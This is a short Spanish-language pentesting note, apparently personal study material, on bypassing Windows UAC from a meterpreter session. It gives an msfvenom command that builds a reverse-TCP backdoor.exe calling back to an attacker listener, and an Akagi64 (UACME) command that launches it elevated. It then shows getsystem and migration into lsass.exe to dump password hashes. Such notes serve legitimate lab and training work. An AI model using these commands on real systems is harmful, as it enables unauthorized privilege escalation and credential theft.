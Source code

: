 Supongamos que estamos dentro de una sesión de meterpreter de una máquina Windows:
![[Mis apuntes/ANEXOS/Pasted image 20230731085818.png]]

Y queremos ejecutar el comando getsystem, donde veremos que nos da error porque ha saltado el UAC:
![[Mis apuntes/ANEXOS/Pasted image 20230731085852.png]]

Por tanto, el primer paso será generar el payload con msfvenom en formato .exe, para pasárselo a la herramienta que usaremos más tarde:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
```
![[Mis apuntes/ANEXOS/Pasted image 20230731090017.png]]

Y ahora subimos este payload como también la herramienta para hacer el bypass llamada Akagi64.exe, ubicándonos en /temp porque allí tenemos permisos de escritura:
![[Mis apuntes/ANEXOS/Pasted image 20230731092903.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230731090056.png]]

Una vez hecho esto, nos pondremos otra vez en escucha con metasploit para recibir esta nueva conexión:
![[Mis apuntes/ANEXOS/Pasted image 20230731090306.png]]

Y ahora desde la otra sesión de meterpreter, ejecutamos el Akagi64.exe pasándole la backdoor.exe que hemos subido anteriormente:
```bash
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

Recibimos la conexión y ahora sí podemos ejecutar el comando getsystem:
![[Mis apuntes/ANEXOS/Pasted image 20230731090426.png]]

Y también podemos migrarnos al proceso lsass.exe para dumpear hashes:
![[Mis apuntes/ANEXOS/Pasted image 20230731090942.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230731090952.png]]

